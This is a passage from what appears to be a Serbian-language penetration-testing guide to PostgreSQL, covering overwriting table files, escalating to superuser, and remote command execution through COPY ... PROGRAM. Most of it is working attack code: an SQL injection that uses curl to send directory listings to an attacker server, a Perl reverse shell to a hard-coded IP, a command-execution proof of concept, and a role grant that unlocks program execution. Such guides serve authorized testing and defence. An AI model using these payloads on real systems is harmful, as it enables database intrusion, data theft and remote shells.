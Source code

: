 ```sql
SELECT lo_from_bytea(13338,decode('{BASE64_ENCODED_EDITED_FILENODE}','base64'))
SELECT lo_export(13338,'{PSQL_DATA_DIRECTORY}/{RELATION_FILEPATH}')
```

7. _(Opciono)_ Očistite keširanu tabelu iz memorije pokretanjem skupog SQL upita

```sql
SELECT lo_from_bytea(133337, (SELECT REPEAT('a', 128*1024*1024))::bytea)
```

8. Sada biste trebali videti ažurirane vrednosti tabele u PostgreSQL-u.

Takođe možete postati superadmin uređivanjem tabele `pg_authid`. **Pogledajte** [**sledeću sekciju**](pentesting-postgresql.md#privesc-by-overwriting-internal-postgresql-tables).

## RCE

### **RCE do programa**

Od [verzije 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), samo **super korisnici** i članovi grupe **`pg_execute_server_program`** mogu koristiti copy za RCE (primer sa eksfiltracijom:

```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```

Primer za izvršenje:

```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

{% hint style="warning" %}
Zapamtite da ako niste super korisnik, ali imate dozvole **`CREATEROLE`**, možete **postati član te grupe:**

```sql
GRANT pg_execute_server_program TO username;
```

[**Više informacija.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Ili koristite modul `multi/postgres/postgres_copy_from_program_cmd_exec` iz **metasploita**.\
Više informacija o ovoj ranjivosti [**ovde**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). Dok je prijavljeno kao CVE-2019-9193, Postgres je proglasio da je ovo [funkcionalnost i neće biti popravljeno](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).
